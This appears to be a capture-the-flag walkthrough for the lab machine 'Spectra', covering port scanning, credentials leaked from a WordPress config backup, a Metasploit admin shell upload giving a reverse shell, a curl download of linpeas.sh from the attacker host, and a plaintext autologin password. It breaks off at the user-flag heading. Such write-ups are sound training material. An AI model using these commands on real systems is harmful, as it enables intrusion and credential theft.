









# Spectra

## Details

- **Points**: 20
- **Difficulty**: Easy
- **Operating System**: Other
- **IP Address**: 10.10.10.229

## Table of Contents

- Foothold
  - [Network Scanning](#network-scanning)
  - [Web Application Enumeration](#web-application-enumeration)
  - [`wp-config.php.save`](#wp-configphpsave)
  - [WordPress Admin Shell Upload](#wordpress-admin-shell-upload)
- User
  - [ChromeOS](#chromeos)
  - [`autologin.conf.orig`](#autologinconforig)
  - [Getting the User Flag](#getting-the-user-flag)
- Root

## Walkthrough

### Network Scanning

Let's start scanning the network with Nmap.

```
$ sudo nmap -sC -sV -O -oA nmap/out -p$(nmap -T4 -p- 10.10.10.229 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') 10.10.10.229
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-29 18:26 AEST
Nmap scan report for spectra.htb (10.10.10.229)
Host is up (0.023s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.1 (protocol 2.0)
| ssh-hostkey:
|_  4096 52:47:de:5c:37:4f:29:0e:8e:1d:88:6e:f9:23:4d:5a (RSA)
80/tcp   open  http    nginx 1.17.4
|_http-server-header: nginx/1.17.4
|_http-title: Site doesn't have a title (text/html).
3306/tcp open  mysql   MySQL (unauthorized)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.27 seconds
```

Let's visit the web application that is running on port 80 of the remote machine.

### Web Application Enumeration

When visiting the website, we are greeted by the following page that contains two links.


The first link directs us to `spectra.htb/main/index.php`, while the second link leads us to `spectra.htb/testing/index.php`.

Before moving on, let's add the following to `/etc/hosts`.

```
10.10.10.229 spectra.htb
```

Clicking on the first link brings us to a Wordpress website.


On the website, there is a single post titled **Hello world!** made by user **administrator**.

Running `wpscan` on the Wordpress website does not yield in any interesting results. So let's focus on manual enumeration for now.

Clicking on the second link brings us to the following website.


Based on the URL, this should be the development or testing version of the main Wordpress website. It should have a similar directory structure as the main website that we visited earlier.

Deleting `index.php` from the url `spectra.htb/testing/index.php` reveals the entire directory structure of the testing website, which is quite odd since visiting `spectra.htb/testing` should automatically open `index.php`. I assume that there might be some misconfiguration somewhere in the remote machine.


### `wp-config.php.save`

Often, `wp-config.php` contains the credentials to the database (remember earlier during the network scanning phase, we found MySQL port 3306 open to public), which might be re-used by the user for other logins. However, we can't simply open `wp-config.php` as it contains php code, which is executed by the server.

In this case, however, we also find `wp-config.php.save`, which seems to be the backup file of `wp-config.php` according to its name. Let's open it.


`wp-config.php.save` seems to simply be an empty file. What we can do is `View Page Source` to determine whether it's really a blank file.


It actually contains the credentials to the database. The database name is `dev` and the username and password is `devtest:devteam01`.

However, when trying to login with the following command and the credential

```
mysql -h 10.10.10.229 -u devtest -p dev
```

we get the following error

```
ERROR 1130 (HY000): Host '10.10.14.60' is not allowed to connect to this MySQL server
```

### WordPress Admin Shell Upload

Now, we can try to visit the main Wordpress website and log in as user administrator. Maybe the password `devteam01` is re-used there. So let's head to `spectra.htb/main/wp-login.php`.


Once we are logged in, the website should bring us to `spectra.htb/main/wp-admin`


As we now have access to Wordpress admin console, there are [multiple known methods](https://www.hackingarticles.in/wordpress-reverse-shell/) for gaining reverse shell from there. In our case, let's use Metasploit Framework to get the initial foothold.

```
$ msfconsole -q
msf6 > search wordpress shell

Matching Modules
================

   #  Name                                                   Disclosure Date  Rank       Check  Description
   -  ----                                                   ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_ait_csv_rce                      2020-11-14       excellent  Yes    WordPress AIT CSV Import Export Unauthenticated Remote Code Execution
   1  exploit/unix/webapp/wp_admin_shell_upload              2015-02-21       excellent  Yes    WordPress Admin Shell Upload
# -- snip --

msf6 > use exploit/unix/webapp/wp_admin_shell_upload
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show options
# -- snip --
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 10.10.10.229
RHOSTS => 10.10.10.229
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /main
TARGETURI => /main
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME administrator
USERNAME => administrator
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD devteam01
PASSWORD => devteam01
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST 10.10.14.60
lhost => 10.10.14.60
msf6 exploit(unix/webapp/wp_admin_shell_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.60:4444
[*] Authenticating with WordPress using administrator:devteam01...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /main/wp-content/plugins/qhIhnYYnCw/YKVYsjTpme.php...
[*] Sending stage (39282 bytes) to 10.10.10.229
[+] Deleted YKVYsjTpme.php
[+] Deleted qhIhnYYnCw.php
[+] Deleted ../qhIhnYYnCw
[*] Meterpreter session 1 opened (10.10.14.60:4444 -> 10.10.10.229:43440) at 2021-06-29 19:21:32 +1000

meterpreter > shell
Process 4338 created.
Channel 1 created.
sh: 0: getcwd() failed: No such file or directory
sh: 0: getcwd() failed: No such file or directory
whoami
nginx
```

Finally, we managed to get access to the remote machine as user `nginx`.

### ChromeOS

By visiting `/home` directory, we find out that there are 2 other users, which are `chronos` and `katie`.
To perform a more thorough enumeration, we can upload `linpeas.sh` to the remote machine and execute it there (note that although the operating system of the machine is listed as other, it is still linux-based, which we can find out through `uname -a`).

```
$ uname -a
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 Intel(R) Xeon(R) CPU E5-2683 v4 @ 2.10GHz GenuineIntel GNU/Linux
```

From your local machine, setup Python http server in the directory where `linpeas.sh` is stored with `python3 -m http.server 9999` and download it on the remote machine in `/tmp` with `curl -O 10.10.14.60:9999/linpeas.sh`. Change the permission of the file to be executable with `chmod +x linpeas.sh`.

Note that we will not be able to execute `linpeas.sh` with `./linpeas.sh` or `sh linpeas.sh` as `/tmp` is a `noexec` partition.

```
$ ./linpeas.sh
/bin/sh: 51: ./linpeas.sh: Permission denied
$ sh ./linpeas.sh
sh: 0: Refusing to exec ./linpeas.sh from noexec mount; see https://chromium.googlesource.com/chromiumos/docs/+/master/security/noexec_shell_scripts.md
```

Interestingly, we are still able to run the script with bash `bash ./linpeas.sh` although we still get the `noexec mount` warning.

From the output of `linpeas.sh`, we managed to determine that the operating system running on the remote machine is ChromeOS.

```
Linux version 5.4.66+ (neverware@cloudready-builder) (Chromium OS 11.0_pre399094_p20200824-r6 clang version 11.0.0 (/var/tmp/portage/sys-devel/llvm-11.0_pre399094_p20200824-r6/work/llvm-11.0_pre399094_p20200824/clang 83080a294ad7d145d758821bcf4354ad0cb7d299)) #1 SMP Tue Dec 22 13:39:49 UTC 2020
```

We can also find this information from `/etc/lsb-release` ([source](https://stackoverflow.com/questions/47838800/etc-lsb-release-vs-etc-os-release))

```
$ cat /etc/lsb-release
GOOGLE_RELEASE=87.3.41
CHROMEOS_RELEASE_BRANCH_NUMBER=85
CHROMEOS_RELEASE_TRACK=stable-channel
CHROMEOS_RELEASE_KEYSET=devkeys
CHROMEOS_RELEASE_NAME=Chromium OS
CHROMEOS_AUSERVER=https://cloudready-free-update-server-2.neverware.com/update
CHROMEOS_RELEASE_BOARD=chromeover64
CHROMEOS_DEVSERVER=https://cloudready-free-update-server-2.neverware.com/
CHROMEOS_RELEASE_BUILD_NUMBER=13505
CHROMEOS_CANARY_APPID={90F229CE-83E2-4FAF-8479-E368A34938B1}
CHROMEOS_RELEASE_CHROME_MILESTONE=87
CHROMEOS_RELEASE_PATCH_NUMBER=2021_01_15_2352
CHROMEOS_RELEASE_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_BOARD_APPID=87efface-864d-49a5-9bb3-4b050a7c227a
CHROMEOS_RELEASE_BUILD_TYPE=Developer Build - neverware
CHROMEOS_RELEASE_VERSION=87.3.41
CHROMEOS_RELEASE_DESCRIPTION=87.3.41 (Developer Build - neverware) stable-channel chromeover64
```

And `chronos`, the user that we found earlier, is the default user of Chromium OS, which is the OS that Chrome OS is based on.

### `autologin.conf.orig`

Furthermore, we managed to find an interesting file in `/opt` directory named `autologin.conf.orig`.

```
$ cat autologin.conf.orig
# Copyright 2016 The Chromium OS Authors. All rights reserved.
# Use of this source code is governed by a BSD-style license that can be
# found in the LICENSE file.
description   "Automatic login at boot"
author        "chromium-os-dev@chromium.org"
# After boot-complete starts, the login prompt is visible and is accepting
# input.
start on started boot-complete
script
  passwd=
  # Read password from file. The file may optionally end with a newline.
  for dir in /mnt/stateful_partition/etc/autologin /etc/autologin; do
    if [ -e "${dir}/passwd" ]; then
      passwd="$(cat "${dir}/passwd")"
      break
    fi
  done
  if [ -z "${passwd}" ]; then
    exit 0
  fi
  # Inject keys into the login prompt.
  #
  # For this to work, you must have already created an account on the device.
  # Otherwise, no login prompt appears at boot and the injected keys do the
  # wrong thing.
  /usr/local/sbin/inject-keys.py -s "${passwd}" -k enter
end script
```

which points us to 2 directories, `/mnt/stateful_partition/etc/autologin` and `/etc/autologin`. The first directory does not exist in the remote machine, while the second one contains a file title `passwd`.

```
cat /etc/autologin/passwd
SummerHereWeCome!!
```

As the name of the file suggests, it contains something that seems to be a user's password. Let's try to SSH in to the machine with credential `katie:SummerHereWeCome!!`

### Getting the User Flag


